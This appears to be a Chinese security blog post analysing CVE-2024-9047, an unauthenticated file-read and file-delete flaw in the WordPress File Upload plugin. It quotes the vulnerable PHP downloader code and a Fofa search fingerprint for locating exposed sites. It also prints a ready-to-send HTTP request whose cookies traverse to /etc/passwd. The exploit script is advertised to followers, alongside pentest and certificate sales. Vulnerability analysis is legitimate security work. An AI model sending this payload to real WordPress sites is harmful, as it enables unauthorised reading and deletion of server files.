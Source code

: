 #  【首发 1day】WordPress File Upload 插件存在前台任意文件读取漏洞(CVE-2024-9047)   
原创 Mstir  星悦安全   2024-12-24 03:54  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**WordPress****File Upload 插件，在 <= 4.24.11 版本前的 wfu_file_downloader.php 文件存在前台任意文件读取+任意文件删除漏洞，CVSS评分9.8，Fofa大量存在，且危害较大，没有分析的文章，于是分析一下.**  
  
**影响版本: <= 4.24.11**  
  
**Fofa指纹:"wp-content/plugins/wp-file-upload"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5erbVnIkcnTFIEZy9wXJARfQ7LMicoRWCYGkdvCmFfxFxGS50v7CydEvnS0fTU48Xaunp2JUiby0Aog/640?wx_fmt=other&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5erbVnIkcnTFIEZy9wXJARfoUrEVTckqok9H4LvCTqLFSI1BhClMLrdk4k8KppeMxjpJdIXjFzlkw/640?wx_fmt=other&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
安装完毕后，位于 /wp-content/plugins/wp-file-upload/wfu_file_downloader.php 中的wfu_fopen_for_downloader 方法存在fopen 函数导致文件读取操作.  
  
```
function wfu_fopen_for_downloader($filepath, $mode) {
  if ( substr($filepath, 0, 7) != "sftp://" ) return @fopen($filepath, $mode);
  $ret = false;
  $ftpinfo = wfu_decode_ftpurl($filepath);
  if ( $ftpinfo["error"] ) return $ret;
  $data = $ftpinfo["data"];
  {
    $conn = @ssh2_connect($data["ftpdomain"], $data["port"]);
    if ( $conn && @ssh2_auth_password($conn, $data["username"], $data["password"]) ) {
      $sftp = @ssh2_sftp($conn);
      if ( $sftp ) {
        //$ret = @fopen("ssh2.sftp://".intval($sftp).$data["filepath"], $mode);
        $contents = @file_get_contents("ssh2.sftp://".intval($sftp).$data["filepath"]);
        $stream = fopen('php://memory', 'r+');
        fwrite($stream, $contents);
        rewind($stream);
        $ret = $stream;
      }
    }
  }
  
  return $ret;
}

```  
  
  
实际在 wfu_download_file 方法就调用到了该函数，且需满足一些条件，其中Cookie中的wfu_storage_pQ1DyzbQp5hBxQpW 为需要读取的文件，包括 wfu_download_ticket_Hw8h7dBmxROx27ZZ 时间戳需要精准在分钟内即可  
  
  
```
<?php
if ( !defined("ABSWPFILEUPLOAD_DIR") ) DEFINE("ABSWPFILEUPLOAD_DIR", dirname(__FILE__).'/');
if ( !defined("WFU_AUTOLOADER_PHP50600") ) DEFINE("WFU_AUTOLOADER_PHP50600", 'vendor/modules/php5.6/autoload.php');
include_once( ABSWPFILEUPLOAD_DIR.'lib/wfu_functions.php' );
include_once( ABSWPFILEUPLOAD_DIR.'lib/wfu_security.php' );
$handler = (isset($_POST['handler']) ? $_POST['handler'] : (isset($_GET['handler']) ? $_GET['handler'] : '-1'));
$session_legacy = (isset($_POST['session_legacy']) ? $_POST['session_legacy'] : (isset($_GET['session_legacy']) ? $_GET['session_legacy'] : ''));
$dboption_base = (isset($_POST['dboption_base']) ? $_POST['dboption_base'] : (isset($_GET['dboption_base']) ? $_GET['dboption_base'] : '-1'));
$dboption_useold = (isset($_POST['dboption_useold']) ? $_POST['dboption_useold'] : (isset($_GET['dboption_useold']) ? $_GET['dboption_useold'] : ''));
$wfu_cookie = (isset($_POST['wfu_cookie']) ? $_POST['wfu_cookie'] : (isset($_GET['wfu_cookie']) ? $_GET['wfu_cookie'] : ''));
if ( $handler == '-1' || $session_legacy == '' || $dboption_base == '-1' || $dboption_useold == '' || $wfu_cookie == '' ) die();
else {
    $GLOBALS["wfu_user_state_handler"] = wfu_sanitize_code($handler);
    $GLOBALS["WFU_GLOBALS"]["WFU_US_SESSION_LEGACY"] = array( "", "", "", ( $session_legacy == '1' ? 'true' : 'false' ), "", true );
    $GLOBALS["WFU_GLOBALS"]["WFU_US_DBOPTION_BASE"] = array( "", "", "", wfu_sanitize_code($dboption_base), "", true );
    $GLOBALS["WFU_GLOBALS"]["WFU_US_DBOPTION_USEOLD"] = array( "", "", "", ( $dboption_useold == '1' ? 'true' : 'false' ), "", true );
    if ( !defined("WPFILEUPLOAD_COOKIE") ) DEFINE("WPFILEUPLOAD_COOKIE", wfu_sanitize_tag($wfu_cookie));
    wfu_download_file();
}

function wfu_download_file() {
    global $wfu_user_state_handler;
    $file_code = (isset($_POST['file']) ? $_POST['file'] : (isset($_GET['file']) ? $_GET['file'] : ''));
    $ticket = (isset($_POST['ticket']) ? $_POST['ticket'] : (isset($_GET['ticket']) ? $_GET['ticket'] : ''));
    if ( $file_code == '' || $ticket == '' ) die();
    
    wfu_initialize_user_state();
    
    $ticket = wfu_sanitize_code($ticket);   
    $file_code = wfu_sanitize_code($file_code);
    //if download ticket does not exist or is expired die
    if ( !WFU_USVAR_exists_downloader('wfu_download_ticket_'.$ticket) || time() > WFU_USVAR_downloader('wfu_download_ticket_'.$ticket) ) {
        WFU_USVAR_unset_downloader('wfu_download_ticket_'.$ticket);
        WFU_USVAR_unset_downloader('wfu_storage_'.$file_code);
        echo 666;
        wfu_update_download_status($ticket, 'failed');
        die();
    }
    //destroy ticket so it cannot be used again
    WFU_USVAR_unset_downloader('wfu_download_ticket_'.$ticket);
    
    //if file_code starts with exportdata, then this is a request for export of
    //uploaded file data, so disposition_name wont be the filename of the file
    //but wfu_export.csv; also set flag to delete file after download operation
    if ( substr($file_code, 0, 10) == "exportdata" ) {
        $file_code = substr($file_code, 10);
        //$filepath = wfu_get_filepath_from_safe($file_code);
        $filepath = WFU_USVAR_downloader('wfu_storage_'.$file_code);
        $disposition_name = "wfu_export.csv";
        $delete_file = true;
    }
    //if file_code starts with debuglog, then this is a request for download of
    //debug_log.txt
    elseif ( substr($file_code, 0, 8) == "debuglog" ) {
        $file_code = substr($file_code, 8);
        //$filepath = wfu_get_filepath_from_safe($file_code);
        $filepath = WFU_USVAR_downloader('wfu_storage_'.$file_code);
        $disposition_name = wfu_basename($filepath);
        $delete_file = false;
    }
    else {
        //$filepath = wfu_get_filepath_from_safe($file_code);
        $filepath = WFU_USVAR_downloader('wfu_storage_'.$file_code);
        if ( $filepath === false ) {
            WFU_USVAR_unset_downloader('wfu_storage_'.$file_code);
            wfu_update_download_status($ticket, 'failed');
            die();
        }
        $filepath = wfu_flatten_path($filepath);
        if ( substr($filepath, 0, 1) == "/" ) $filepath = substr($filepath, 1);
        $filepath = ( substr($filepath, 0, 6) == 'ftp://' || substr($filepath, 0, 7) == 'ftps://' || substr($filepath, 0, 7) == 'sftp://' ? $filepath : WFU_USVAR_downloader('wfu_ABSPATH').$filepath );
        $disposition_name = wfu_basename($filepath);
        $delete_file = false;
    }
    //destroy file code as it is no longer needed
    WFU_USVAR_unset_downloader('wfu_storage_'.$file_code);
    //check that file exists
    if ( !wfu_file_exists_for_downloader($filepath) ) {
        wfu_update_download_status($ticket, 'failed');
        die('<script language="javascript">alert("'.( WFU_USVAR_exists_downloader('wfu_browser_downloadfile_notexist') ? WFU_USVAR_downloader('wfu_browser_downloadfile_notexist') : 'File does not exist!' ).'");</script>');
    }

    $open_session = false;
    @set_time_limit(0); // disable the time limit for this script
    $fsize = wfu_filesize_for_downloader($filepath);
    if ( $fd = wfu_fopen_for_downloader($filepath, "rb") ) {
        $open_session = ( ( $wfu_user_state_handler == "session" || $wfu_user_state_handler == "" ) && ( function_exists("session_status") ? ( PHP_SESSION_ACTIVE !== session_status() ) : ( empty(session_id()) ) ) );
        if ( $open_session ) session_start();
        header('Content-Type: application/octet-stream');
        header("Content-Disposition: attachment; filename=\"".$disposition_name."\"");
        header('Content-Transfer-Encoding: binary');
        header('Connection: Keep-Alive');
        header('Expires: 0');
        header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
        header('Pragma: public');
        header("Content-length: $fsize");
        $failed = false;
        while( !feof($fd) ) {
            $buffer = @fread($fd, 1024*8);
            echo $buffer;
            ob_flush();
            flush();
            if ( connection_status() != 0 ) {
                $failed = true;
                break;
            }
        }
        fclose ($fd);
    }
    else $failed = true;
    
    if ( $delete_file ) wfu_unlink_for_downloader($filepath);
    
    if ( !$failed ) {
        wfu_update_download_status($ticket, 'downloaded');
        if ( $open_session ) session_write_close();
        die();
    }
    else {
        wfu_update_download_status($ticket, 'failed');
        if ( $open_session ) session_write_close();
        die('<script type="text/javascript">alert("'.( WFU_USVAR_exists_downloader('wfu_browser_downloadfile_failed') ? WFU_USVAR_downloader('wfu_browser_downloadfile_failed') : 'Could not download file!' ).'");</script>');
    }
}

```  
  
Payload:  
```
GET /wp-content/plugins/wp-file-upload/wfu_file_downloader.php?file=pQ1DyzbQp5hBxQpW&ticket=Hw8h7dBmxROx27ZZ&handler=dboption&session_legacy=1&dboption_base=cookies&dboption_useold=0&wfu_cookie=wp_wpfileupload_939a4dc9e3d96a97c2dd1bdcbeab52ce HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wp_wpfileupload_939a4dc9e3d96a97c2dd1bdcbeab52ce=cfyMMnYQqNBbcBNMLTCDnE7ezEAdzLC3; wfu_storage_pQ1DyzbQp5hBxQpW=/../../../../../etc/passwd[[name]]; wfu_download_ticket_Hw8h7dBmxROx27ZZ=时间戳; wfu_ABSPATH=/; 
Connection: close

```  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5erbVnIkcnTFIEZy9wXJARfgaVthDNqmDssrOicCcNuSOYWsyhCzW77ammk26bhaNxtTPibhFuU8BgA/640?wx_fmt=other&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5erbVnIkcnTFIEZy9wXJARfviaLjU0fFqR8BkXfX3GdfI5Q8UYsb8aDdX5xEdZYDONdOuVuibLttSAA/640?wx_fmt=other&from=appmsg "")  
  
**利用脚本**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5erbVnIkcnTFIEZy9wXJARfAZKgUcxBtibiaRW5Nia6QKLpvll52cPfPWwFOrzSRNGE07DaHwRKQLVFQ/640?wx_fmt=png&from=appmsg "")  
## 0x02 脚本下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**利用脚本关注公众号发送 241224 获取!**  
  
  
  
  
  
****  
**进公开群，代码审计，众测，驻场，渗透测试，攻防演练，CNVD证书全网最低价+VX: Lonely3944**  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5erbVnIkcnTFIEZy9wXJARfhbPBGic08dIfyq6cCbZdhlLkQETGMqZfcZ4FxH5meYTWZAReibE9ZZcA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5erbVnIkcnTFIEZy9wXJARfGm5tc2via1EPictNibZVv7KiaQ3fIQQzxTaJibWDFmw6QaNzYicxTR3ye93g/640?wx_fmt=jpeg "")  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
